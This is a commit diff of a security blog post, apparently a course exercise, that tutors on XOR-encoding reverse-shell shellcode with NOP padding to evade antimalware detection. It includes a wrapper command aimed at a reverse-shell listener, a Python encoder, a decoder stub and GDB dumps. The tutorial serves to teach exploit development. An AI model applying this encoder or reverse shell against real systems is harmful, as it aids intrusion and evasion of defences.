

Before and after one commit to smarinovic/smarinovic.github.io, a Jekyll site: the page built from _posts/2020-06-10-Custom-Encoder.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2020-06-10-Custom-Encoder.md

````diff
--- a/_posts/2020-06-10-Custom-Encoder.md
+++ b/_posts/2020-06-10-Custom-Encoder.md
@@ -13,12 +13,13 @@
 Sending well known shell code to target machine would most probably be detected by antimalware solution .
 One way to bypass antimalware detection is to encode shell code and to have higher chances for sucessful bypass, custom encoder should be created and used.
 In this blog post we will go thru process of creating simple encoder and decored.
-As an example we will preform XOR operation on every shell code byte with 0x0F value (key) and add NOP instrunction after every encoded shell code byte. This endocer will double shell code size which can be tricky if buffer space is small but for educational purposes we can ignore that.
+As an example we will preform XOR operation on every shell code byte with value ```0x0F``` (encoding key) and add NOP (```\x90```) instrunction after every encoded shell code byte.
+This endocer will double shell code size which can be tricky if buffer space is small but for educational purposes we can ignore that.
 During decoding procedure, XOR operation will be preformed to restore original shell code and NOP instructions will be ignored.
 
 ## Shell code ##
 
-We can use reverse shell code and wrapper form previous [blog post](https://smarinovic.github.io/posts/Reverse-shell/) which establishes connection to defined remote address at defined port (in our case IP address is 192.168.192.159 and port is 4444).
+We can use reverse shell code and wrapper form previous [blog post](https://smarinovic.github.io/posts/Reverse-shell/) which tries to establish connection to defined remote address at defined port (in our case IP address is 192.168.192.159 and port is 4444).
 
 ```
 python wrapper.py 192.168.192.159 4444
@@ -27,8 +28,8 @@
 
 ## Encoding shell code ##
 
-Once we get shell code, we will use following python script to read thru defined bytearray (shell code opcodes) and preform XOR operation with 0x0F key.
-NOP (\x90) will be injected after every encoded byte.
+Once we get opcodes for encoded shell code, we will use following python script to read thru defined bytearray (shell code opcodes) and preform XOR operation with ```0x0F``` key.
+After XOR opration, NOP (```\x90```) will be injected after every encoded byte.
 ```
 #!/usr/bin/python
 import sys
@@ -57,8 +58,8 @@
 
 ## Decoder ##
 
-To sucessfuly decode encoded shell code, we need to preform XOR operation for every shell code byte with defined key 0x0F.
-Every other byte will be skipped as it is NOP instrunction. We will use:
+To sucessfuly decode encoded shell code, we need to preform XOR operation for every shell code byte with previously defined key ```0x0F```.
+Every other byte will be skipped as it is NOP (```0x90```) instrunction. We will use following registers for decoding:
 * EAX for XOR operations
 * ECX as counter for decoding stub
 * EDX as pointer to beggining of encoded (and later decoded) shell code
@@ -143,8 +144,8 @@
 }
 ```
 
-By stepping thu program with GDB we can observe shell code decoding.
-At the beggining of decoding stub we can see that ESI register is pointing to the beggining of encoded shellcode (memory address: ```0x404067```).
+By stepping thu program with GDB we can observe shell code decoding. ESI register is used for storing pointer to beggining of encoded shellcode.
+At the beggining of decoding stub we can see that ESI register is pointing to the beggining of encoded shellcode which is located at memory address: ```0x404067```.
 
 ```
 gdb-peda$ info register esi
@@ -163,22 +164,23 @@
 ```
 
 * content of the same address after few itterations:
-We can see that 0x3e is decoded to 0x31 (XOR 0x0F, 0x3e = 0x31) and 0x90 is ignored and overwritten.
+We can see that ```0x3e``` is decoded to ```0x31``` (which is result of following instruction ```XOR 0x0F, 0x3e```) and ```0x90``` is ignored and overwritten.
 
 ```
 gdb-peda$ x/10b 0x404067
 0x404067 <shellcode+39>:        0x31    0xc0    0x31    0xdb    0x31    0x90    0xd4    0x90
-0x40406f <shellcode+47>:        0x3e    0x90
+ decoded 1st opcode-------------^^^^
+ NOP is ignored and replaced -----------^^^^
 ```
 
 * content of the same address after some more itterations:
-We can see that decoded shell code doesn't not contain added NOPs and that all opcodes are XORed (0x3e XOR 0f = 0x31, 0xcf XOR 0x0f = 0xc0, etc.) and it has overwritten original encoded opcodes:
+We can see that decoded shell code does not contain added NOPs (```0x90```) and that all opcodes are XORed (0x3e XOR 0f = 0x31, 0xcf XOR 0x0f = 0xc0, etc.). Decoded opcodes overwrites original encoded opcodes:
 ```
 gdb-peda$ x/10b 0x404067
 0x404067 <shellcode+39>:        0x31    0xc0    0x31    0xdb    0x31    0xc9    0x31    0xd2
 0x40406f <shellcode+47>:        0x31    0xf6
 ```
 
-## Result ##
+## Testing reverse shell ##
 
-![Custom decoder working](https://smarinovic.github.io/assets/img/slae_00017.png)
+![Custom decoder working](https://smarinovic.github.io/assets/img/slae_00018.png)
````
Also changed, not shown: other parts of _posts/2020-06-10-Custom-Encoder.md (+2 -2 lines).
